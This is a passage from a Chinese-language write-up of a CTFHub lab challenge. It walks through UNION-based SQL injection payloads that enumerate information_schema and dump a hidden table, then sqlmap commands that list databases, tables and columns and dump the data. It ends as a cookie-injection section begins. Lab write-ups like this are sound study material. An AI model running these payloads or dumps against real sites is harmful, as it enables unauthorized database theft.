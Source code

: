 得到数据库sqli,在去得到数据库的表名，构造语句：

-1 union select 1,group_concat(table_name) from information_schema.tables where table_schema='sqli'

![image-20220609173528669](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609173528669.png)

发现一个奇怪的表ywjidlpwzg查看里面字段名字，构造语句：

-1 union select 1,group_concat(column_name) from information_schema.columns where table_schema='sqli' and table_name='ywjidlpwzg'

![image-20220609173707227](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609173707227.png)

得到字段名，于是查看字段内容，构造语句：

-1 union select 1,group_concat(jdpbhbikgx) from sqli.ywjidlpwzg

![image-20220609174848752](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609174848752.png)



#### 方法二：sqlmap

使用sqlmap来进行爆破

```
python sqlmap.py -u "http://challenge-38f5e1e6f6150b87.sandbox.ctfhub.com:10800/?id=1" --dbs
```

这里python sqlmap.py -u"url" -batch是基本的注入框架，“-dbs”指向数据库。

<img src="C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609172447522.png" alt="image-20220609172447522" style="zoom:80%;" />

```html
python sqlmap.py -u "http://challenge-38f5e1e6f6150b87.sandbox.ctfhub.com:10800/?id=1" -D sqli --tables
```

-D是数据库，“-tables”指向爆破表名。

<img src="C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609172424852.png" alt="image-20220609172424852" style="zoom:80%;" />

```
python sqlmap.py -u "http://challenge-38f5e1e6f6150b87.sandbox.ctfhub.com:10800/?id=1" -D sqli -T ywjidlpwzg --columns --dump
```

-T是表名，-columns是爆破列名,-dump是爆数据

<img src="C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609174425883.png" alt="image-20220609174425883" style="zoom:80%;" />

### **cookie注入

##### 方法一：手动注入

发现这是cookie注入，于是就抓包得到：

<img src="C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609181008568.png" alt="image-20220609181008568" style="zoom:80%;" />
